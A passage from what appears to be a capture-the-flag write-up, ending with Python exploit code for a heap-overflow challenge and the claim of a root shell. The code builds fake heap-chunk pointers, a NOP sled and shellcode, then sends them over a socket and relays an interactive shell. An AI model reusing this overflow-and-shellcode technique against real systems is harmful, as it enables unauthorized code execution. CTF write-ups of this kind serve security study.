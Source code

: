 ```python
ck2 += struct.pack('I', 0x0804d41c - 12)
ck2 += struct.pack('I', 0x0804e098)
#shellcode
ck2 += "\xeb\x0a"
ck2 += '\x90' * 20
ck2 += "\x6a\x00\x6a\x00\x68\x10\xe0\x04\x08\xb8\x6c\x8f\x04\x08\xff\xd0"

ck2 += "A" * (128 - (len(ck2)))
s.send(ck2)

# to break out of the while loop
s.send("A")

while(True):
        c = os.read(0, 999)
        s.send(c)
        print s.recv(999)
```
![image5](https://github.com/YazoSh/ctf-writeups/raw/master/images/final2-5.png)

Here is our root shell

wasn't that hard was it?
